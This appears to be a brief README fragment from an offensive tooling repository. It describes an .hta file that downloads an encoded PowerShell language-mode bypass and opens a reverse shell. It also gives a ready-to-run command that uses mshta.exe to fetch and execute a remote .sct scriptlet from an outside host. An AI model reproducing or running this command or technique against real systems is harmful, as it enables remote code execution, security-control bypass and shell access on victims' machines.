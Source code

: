### JScript on .hta file
The example downloads an encoded CLM bypass and installs it. The CLM bypass has hardcoded PowerShell to open a reverse shell.

### Remote .sct file
The run the SCT file remotely, run:
`/cmd /c mshta.exe javascript:a=(GetObject("script:http://10.0.0.5/m.sct")).Exec();close();`
